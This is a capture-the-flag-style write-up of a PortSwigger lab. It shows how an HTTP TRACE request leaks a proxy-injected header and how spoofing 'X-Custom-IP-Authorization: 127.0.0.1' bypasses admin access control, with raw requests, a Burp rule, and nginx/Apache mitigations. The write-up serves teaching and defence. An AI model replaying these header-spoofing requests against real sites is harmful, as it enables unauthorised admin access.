




# Lab 04: Authentication Bypass via Information Disclosure

> **Topic**: Information Disclosure
> **Lab Number**: 04
> **Platform**: PortSwigger Web Security Academy

## Category
Information Disclosure — Internal Header Leaked via TRACE Method, Enabling Authentication Bypass

## Vulnerability Summary
The application's admin panel restricts access to local IP addresses using a custom HTTP header (`X-Custom-IP-Authorization`) injected by the front-end proxy. The TRACE method is enabled on the server, which reflects the full incoming request — including all headers added by intermediate infrastructure — back to the client. This leaks the internal header name. Since the header is client-controllable, an attacker can spoof it with `127.0.0.1` to bypass the IP-based access control entirely and reach the admin panel without authentication.

## Attack Methodology

### Step 1: Probe the Admin Panel
Sent a direct request to `/admin`:

```http
GET /admin HTTP/2
Host: 0ad9009c03d5fe0080c5e95800390052.web-security-academy.net
```

Response: `401` — "Admin interface only available to local users."

The restriction is IP-based, not session/role-based.

### Step 2: Use TRACE to Leak the Injected Header
Sent a TRACE request to `/admin` in Burp Repeater:

```http
TRACE /admin HTTP/2
Host: 0ad9009c03d5fe0080c5e95800390052.web-security-academy.net
```

The TRACE method causes the server to echo back the exact request it received, including any headers added by the front-end proxy. Response:

```http
HTTP/2 200 OK
Content-Type: message/http

TRACE /admin HTTP/1.1
Host: 0ad9009c03d5fe0080c5e95800390052.web-security-academy.net
...
X-Custom-IP-Authorization: 49.43.42.191
```

The front-end proxy automatically appends `X-Custom-IP-Authorization` with the client's real IP. The back-end uses this header to decide whether the request is "local".





### Step 3: Bypass Authentication by Spoofing the Header
Added a Burp Proxy match-and-replace rule to inject the header into every outgoing request:

- **Type**: Request header
- **Match**: *(empty)*
- **Replace**: `X-Custom-IP-Authorization: 127.0.0.1`

This causes Burp to append the spoofed header to all proxied requests automatically.



### Step 4: Access Admin Panel and Delete carlos
With the rule active, browsed to the home page — the admin panel link appeared. Navigated to `/admin/delete?username=carlos`. Lab solved.



## Technical Root Cause

### Vulnerable Architecture
```
Client → [Front-end Proxy] → Back-end App
                ↓
  Proxy injects: X-Custom-IP-Authorization: <client-real-ip>
                ↓
  Back-end checks: if header == 127.0.0.1 → grant admin access
```

Two compounding flaws:

1. **TRACE enabled on production**: TRACE reflects all headers — including those injected by internal infrastructure — back to the client. Internal header names are meant to be opaque; TRACE makes them visible.

2. **Client-controllable header used for trust decisions**: The back-end trusts `X-Custom-IP-Authorization` without verifying it was set by the proxy. Any client that knows the header name can set it to any value, including `127.0.0.1`.

### Vulnerable Pseudocode
```python
def admin_panel(request):
    # Trusts a header the client can freely set
    client_ip = request.headers.get('X-Custom-IP-Authorization')
    if client_ip != '127.0.0.1':
        return HttpResponse('Admin interface only available to local users', status=401)
    return render_admin_panel()
```

### Secure Pseudocode
```python
def admin_panel(request):
    # Use the actual TCP connection IP — not a spoofable header
    client_ip = request.META['REMOTE_ADDR']
    if client_ip != '127.0.0.1':
        return HttpResponse('Forbidden', status=403)
    return render_admin_panel()

# Additionally, at the web server / proxy layer:
# - Disable TRACE method entirely
# - Strip any client-supplied X-Custom-IP-Authorization before forwarding
```

## Impact
- **Full Authentication Bypass**: Any unauthenticated user can access the admin panel by spoofing a single header
- **Arbitrary Admin Actions**: Admin panel exposes user management (create, delete) with no further authentication
- **Internal Header Enumeration**: TRACE leaks the names of all proxy-injected headers, reducing the effort to find exploitable ones to zero

**Severity: High**

## Proof of Concept

**Step 1 — Leak header name:**
```http
TRACE /admin HTTP/2
Host: 0ad9009c03d5fe0080c5e95800390052.web-security-academy.net

→ Response reveals: X-Custom-IP-Authorization: 49.43.42.191
```

**Step 2 — Bypass and delete user:**
```http
GET /admin/delete?username=carlos HTTP/2
Host: 0ad9009c03d5fe0080c5e95800390052.web-security-academy.net
X-Custom-IP-Authorization: 127.0.0.1

→ HTTP/2 302 → /admin (user deleted, lab solved)
```

## Key Takeaways
1. **Disable TRACE in production**: TRACE has no legitimate use in production and is a well-known information disclosure vector. It reveals internal proxy headers that are meant to be invisible to clients. Most web servers and frameworks disable it by default — verify this is the case.
2. **Never use client-controllable headers for trust decisions**: Any header a client can set (`X-Forwarded-For`, `X-Real-IP`, custom headers) can be spoofed. IP-based access control must use the actual TCP connection source IP (`REMOTE_ADDR`), not a header.
3. **Strip internal headers at the perimeter**: The front-end proxy should strip any client-supplied instance of `X-Custom-IP-Authorization` before forwarding, so clients cannot inject their own value even if they know the header name.
4. **IP-based access control is weak by design**: Relying solely on IP for admin access is fragile. Combine it with session authentication and role checks for defence in depth.

## Mitigation

### 1. Disable TRACE at the Web Server
```nginx
# Nginx
if ($request_method = TRACE) {
    return 405;
}
```
```apache
# Apache
TraceEnable Off
```

### 2. Strip Client-Supplied Internal Headers at the Proxy
```nginx
# Remove any client-supplied value before forwarding
proxy_set_header X-Custom-IP-Authorization "";
# Then set it from the real connection IP
proxy_set_header X-Custom-IP-Authorization $remote_addr;
```

### 3. Use REMOTE_ADDR, Not a Header, for IP Checks
```python
# Wrong — spoofable
ip = request.headers.get('X-Custom-IP-Authorization')

# Right — actual TCP source IP
ip = request.META['REMOTE_ADDR']
```

### 4. Add Proper Authentication to Admin Panel
IP-based restriction alone is insufficient. Require an authenticated admin session:
```python
def admin_panel(request):
    if not request.user.is_authenticated or not request.user.is_staff:
        return HttpResponse('Forbidden', status=403)
    return render_admin_panel()
```

## References
- [PortSwigger — Authentication Bypass via Information Disclosure](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)
- [PortSwigger — Information Disclosure Vulnerabilities](https://portswigger.net/web-security/information-disclosure)
- [RFC 9110 — HTTP TRACE Method](https://www.rfc-editor.org/rfc/rfc9110#name-trace)
- [OWASP — HTTP Verb Tampering](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/03-Testing_for_HTTP_Verb_Tampering)
- [CWE-200: Exposure of Sensitive Information to an Unauthorized Actor](https://cwe.mitre.org/data/definitions/200.html)
- [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Match and Replace)
- Chromium

---

*Lab completed on: 2026-05-09*  
*Writeup by vibhxr*
